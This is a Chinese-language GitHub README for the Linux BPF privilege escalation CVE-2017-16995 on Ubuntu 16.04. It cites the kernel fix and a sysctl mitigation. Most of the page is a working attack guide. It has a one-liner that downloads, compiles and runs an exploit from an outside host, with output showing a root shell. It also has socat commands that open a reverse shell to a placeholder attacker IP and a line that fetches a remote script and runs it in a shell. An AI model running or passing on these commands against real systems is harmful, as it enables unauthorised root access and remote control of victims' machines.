 # Ubuntu16.04-0day

### 漏洞范围： all 4.4 ubuntu aws instances are vulnerable
#####  Jann Horn发现在某些情况下，Linux内核中的Berkeley Packet Filter（BPF）不正确地执行了符号扩展check_alu_op()。本地攻击者可以使用它在系统上进行提权,获取root权限。

```
bpf: fix incorrect sign extension in check_alu_op()
Distinguish between
BPF_ALU64|BPF_MOV|BPF_K (load 32-bit immediate, sign-extended to 64-bit)
and BPF_ALU|BPF_MOV|BPF_K (load 32-bit immediate, zero-padded to 64-bit);
only perform sign extension in the first case.

Starting with v4.14, this is exploitable by unprivileged users as long as
the unprivileged_bpf_disabled sysctl isn't set.

Debian assigned CVE-2017-16995 for this issue.

v3:
 - add CVE number (Ben Hutchings)

Fixes: 484611357c19 ("bpf: allow access into map value arrays")
Signed-off-by: Jann Horn <jannh@google.com>
Acked-by: Edward Cree <ecree@solarflare.com>
Signed-off-by: Alexei Starovoitov <ast@kernel.org>
Signed-off-by: Daniel Borkmann <daniel@iogearbox.net>

```

#### 前提条件：unprivileged_bpf_disabled sysctl未设置
#### CVE 编号： CVE-2017-16995
#### 注意: 如果不同的内核调整CRED偏移量+检查内核堆栈大小
### 漏洞测试环境
```

➜  ~ id

uid=1002(test) gid=1002(test) groups=1002(test)

➜  ~ lsb_release -a                  

Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.3 LTS
Release:	16.04
Codename:	xenial

➜  ~ uname -a

Linux ubuntu 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

➜  ~ 

```
### 参考解决方案
```

设置参数“kernel.unprivileged_bpf_disabled = 1”通过限制对bpf（2）调用的访问来防止这种特权升级
___________________________________________________________________________________________________________________________

root@Ubuntu# echo 1 > /proc/sys/kernel/unprivileged_bpf_disabled

______________________________________________________________________________________________________________________________


```

[![asciicast](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW.png)](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW)


## Use-Age:

```

wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned 

```

### upstream44.c

```

sha256sum b71b2317c2f2461f0c25a650c9c6a4dd2399e5d7f800ec19822ba720a574030d

sha1sum d91b5dd8b074dd33bbb6994ab21af4e6279c9098

md5sum f38c046a22fd85e3aab3aa7ea4ef21a4

```

![](./0day.jpg)

```
$ id
uid=1002(test) gid=1002(test) groups=1002(test)

$ wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned
--2018-03-16 17:08:09--  http://cyseclabs.com/exploits/upstream44.c
Resolving cyseclabs.com (cyseclabs.com)... 58.96.20.9
Connecting to cyseclabs.com (cyseclabs.com)|58.96.20.9|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5776 (5.6K) [application/octet-stream]
Saving to: ‘/tmp/upstream44.c.1’

upstream44.c.1                                       100%[==========================================================================>]   5.64k  --.-KB/s    in 0s
2018-03-16 17:08:10 (186 MB/s) - ‘/tmp/upstream44.c’ saved [5776/5776]

task_struct = ffff880065821980
uidptr = ffff880034edbe04
spawning root shell

root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:kernel_t:s0
```
### 利用socat获取一个tty shell
```
hacker: 监听port

wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat file:`tty`,raw,echo=0 tcp-listen:4444

victims：弹shell 下载编译exp

wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:x.x.x.x:4444

wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned

or you can do that 

sh -c "$(wget http://x.x.x.x/exp.sh -O -)"

```
### 参考链接

https://access.redhat.com/security/cve/cve-2017-16995

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=95a762e2c8c942780948091f8f2a4f32fce1ac6f

https://security-tracker.debian.org/tracker/CVE-2017-16995

https://usn.ubuntu.com/3523-2/

https://www.securityfocus.com/bid/102288

https://github.com/torvalds/linux/commit/95a762e2c8c942780948091f8f2a4f32fce1ac6f



